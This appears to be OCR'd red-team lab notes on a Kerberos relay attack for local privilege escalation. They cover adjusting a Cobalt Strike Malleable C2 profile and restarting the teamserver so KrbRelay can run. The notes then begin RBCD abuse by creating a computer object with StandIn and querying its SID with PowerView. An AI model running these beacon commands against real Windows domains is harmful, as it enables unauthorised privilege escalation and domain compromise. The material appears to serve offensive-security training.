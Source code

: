     Kerberos Relay Attacks

    # Kerberos Relay Attack (To Get Local Privilege Escalation from User to System)
      
    # 1- Configuring Cobalt Strike for Kerberos Relay Attack
      
    # 1.1 - Krbrelay uses BouncyCastle Crypto package , Which is quite large , its size is larger than the default task size allowed for beacon. Trying to run it with `execute-assembly` will throw an error.
    beacon> execute-assembly C:\Tools\KrbRelay\KrbRelay\bin\Release\KrbRelay.exe
    [-] Task size of 1727291 bytes is over the max task size limit of 1048576 bytes.
      
    # 1.2 - To fix it we have to modify the Malleable C2 profile and double the task size tasks_max_size. Add below line to the top of your malleable C2 profile.
    set tasks_max_size "2097152";
      
    # After updating the C2 Profile reload the teamserver service
    $ sudo systemctl daemon-reload
    $ sudo systemctl status teamserver.service
    $ sudo systemctl stop teamserver.service
    $ sudo systemctl start teamserver.service
    $ sudo systemctl enable teamserver.service
      
    #----------------------------------------------------------------------------------
      
    # 2- Using Kerberos Relay Attack with RBCD Abuse
    # For help Check Notes : https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9
      
    # 2.1 - To abuse RBCD we must have Local System access to a Domain Computer, Same as RBCD abuse we can just create a new Computer Object and use it
    # Create a Computer object
    beacon> execute-assembly C:\Tools\StandIn\StandIn\StandIn\bin\Release\StandIn.exe --computer EvilComputer --make --domain dev.cyberbotic.io
    # Get its SID
    beacon> powershell-import c:\Tools\PowerSploit\Recon\PowerView.ps1
    beacon> powerpick Get-DomainComputer -Identity EvilComputer -Properties objectsid
      